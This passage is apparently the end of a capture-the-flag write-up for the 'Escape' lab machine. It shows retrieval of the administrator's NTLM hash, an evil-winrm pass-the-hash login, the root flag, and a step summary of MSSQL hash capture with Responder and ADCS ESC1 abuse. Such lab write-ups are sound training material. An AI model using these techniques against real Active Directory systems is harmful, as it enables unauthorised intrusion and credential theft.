[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

Great! we got the NTLM hash of the Administrator, now lets login with winrm

## Login as Administrator via pass the hash

```bash
evil-winrm -i sequel.htb -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```

grabbed root flag! `9cdc0e5182e2e2d9e3ad692973a0d597`

proof



Folder structure:

```bash
*Evil-WinRM* PS C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is EB33-4140
C:.
+---.azuredatastudio
|   |   argv.json
|   |
|   \---extensions
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|
+---Documents
|   +---SQL Server Management Studio
|   |   \---Code Snippets
|   |       \---SQL
|   |           \---My Code Snippets
|   \---Visual Studio 2017
|       \---Templates
|           +---ItemTemplates
|           |   +---JavaScript
|           |   \---TypeScript
|           \---ProjectTemplates
|               +---JavaScript
|               \---TypeScript
+---Downloads
+---Favorites
|   |   Bing.url
|   |
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos
```

---

# Summary

Here is the list of the steps simplified, per phase, for future reference and for quick reading:

### **Reconnaissance**

1. nmap scan -> found multiple services to focus on, like `RPC`, `SMB`, `LDAP`
2. **RPC** enumeration → nothing useful
3. **SMB** enumeration revealed `share` containing a pdf file, containing **credentials**
4. **LDAP** enumeration → nothing useful
5. **Correlated** the pdf file’s credentials with the `MSSQL` service
6. `MSSQL` enumeration → revealed databases but nothing further interesting

### **Foothold**

1. **Leaked NTLM hash** via making MSSQL connect to my host and responder (capture hash) revealing the NTLM hash of a user (sql_svc)
2. **Logged in** as a user (sql_svc)
3. **Enumerated Files and folders**, found `SQL error logs` file containing plaintext creds for another user (ryan.cooper)
4. logged in winrm as user ryan.cooper
5. grabbed **user flag**

### **Privesc**

1. **Group membership** of the user indicated `ADCS` existence
2. **Enumerated** `ADCS`, found it vulnerable to `ESC1`
3. **Abused** `ESC1`, got administrator’s `pfx` and extracted the `NTLM` hash
4. Logged in as administrator via the `NTLM` hash
5. grabbed **root flag**

## Flow chart



---

# Sidenotes

To sump up, Escape was a medium difficulty machine, leveraging basic enumeration and MSSQL for the foothold part, and ADCS abuse via ESC1 vulnerability for the privesc. 

This one will contribute to my knowledge mainly for the MSSQL and ADCS (ESC1) abuse parts.


